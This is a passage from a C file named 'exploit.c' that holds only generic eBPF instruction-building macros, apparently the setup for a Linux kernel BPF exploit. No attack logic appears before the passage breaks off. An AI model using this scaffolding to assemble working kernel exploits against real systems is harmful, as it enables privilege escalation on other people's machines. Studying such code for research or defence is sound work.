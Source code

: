 ```exploit.c
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = ((__u64) (IMM)) >> 32 })
#define BPF_LD_MAP_FD(DST, MAP_FD)              \
  BPF_LD_IMM64_RAW(DST, BPF_PSEUDO_MAP_FD, MAP_FD)
#define BPF_LDX_MEM(SIZE, DST, SRC, OFF)        \
  ((struct bpf_insn) {                          \
    .code  = BPF_LDX | BPF_SIZE(SIZE) | BPF_MEM,\
    .dst_reg = DST,                             \
    .src_reg = SRC,                             \
    .off   = OFF,                               \
    .imm   = 0 })
#define BPF_MOV64_REG(DST, SRC)                 \
  ((struct bpf_insn) {                          \
    .code  = BPF_ALU64 | BPF_MOV | BPF_X,       \
    .dst_reg = DST,                             \
    .src_reg = SRC,                             \
    .off   = 0,                                 \
    .imm   = 0 })
#define BPF_ALU64_IMM(OP, DST, IMM)             \
  ((struct bpf_insn) {                          \
    .code  = BPF_ALU64 | BPF_OP(OP) | BPF_K,    \
    .dst_reg = DST,                             \
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = IMM })
#define BPF_ALU32_IMM(OP, DST, IMM)             \
  ((struct bpf_insn) {                          \
    .code  = BPF_ALU | BPF_OP(OP) | BPF_K,      \
    .dst_reg = DST,                             \
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = IMM })
#define BPF_STX_MEM(SIZE, DST, SRC, OFF)        \
  ((struct bpf_insn) {                          \
    .code  = BPF_STX | BPF_SIZE(SIZE) | BPF_MEM,\
    .dst_reg = DST,                             \
    .src_reg = SRC,                             \
    .off   = OFF,                               \
    .imm   = 0 })
#define BPF_ST_MEM(SIZE, DST, OFF, IMM)         \
  ((struct bpf_insn) {                          \
    .code  = BPF_ST | BPF_SIZE(SIZE) | BPF_MEM, \
    .dst_reg = DST,                             \
    .src_reg = 0,                               \
    .off   = OFF,                               \
    .imm   = IMM })
#define BPF_EMIT_CALL(FUNC)                     \
  ((struct bpf_insn) {                          \
    .code  = BPF_JMP | BPF_CALL,                \
    .dst_reg = 0,                               \
    .src_reg = 0,                               \
    .off   = 0,                                 \
    .imm   = (FUNC) })
#define BPF_JMP_REG(OP, DST, SRC, OFF)				  \
  ((struct bpf_insn) {					                \
    .code  = BPF_JMP | BPF_OP(OP) | BPF_X,      \
    .dst_reg = DST,					                    \
    .src_reg = SRC,					                    \
    .off   = OFF,					                      \
    .imm   = 0 })
#define BPF_JMP_IMM(OP, DST, IMM, OFF)          \
  ((struct bpf_insn) {                          \
```